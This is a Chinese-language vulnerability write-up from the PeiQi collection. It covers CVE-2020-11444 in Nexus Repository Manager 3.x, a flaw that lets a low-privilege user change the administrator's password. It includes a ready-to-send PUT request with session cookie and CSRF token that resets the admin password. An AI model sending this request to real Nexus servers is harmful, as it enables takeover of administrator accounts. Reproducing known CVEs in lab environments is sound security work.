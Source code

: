 ```yaml
---
title: Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - Nexus
---
```


# Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

> [!NOTE]
>
> Nexus  3.x OSS / Pro <= 3.21.1

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204

## 漏洞复现

漏洞触发需要任意账户权限

![image-20210628181754513](/img/20210924020307169228.png)

登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码

```
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功

![image-20210628211858104](/img/20210924020307380439.png)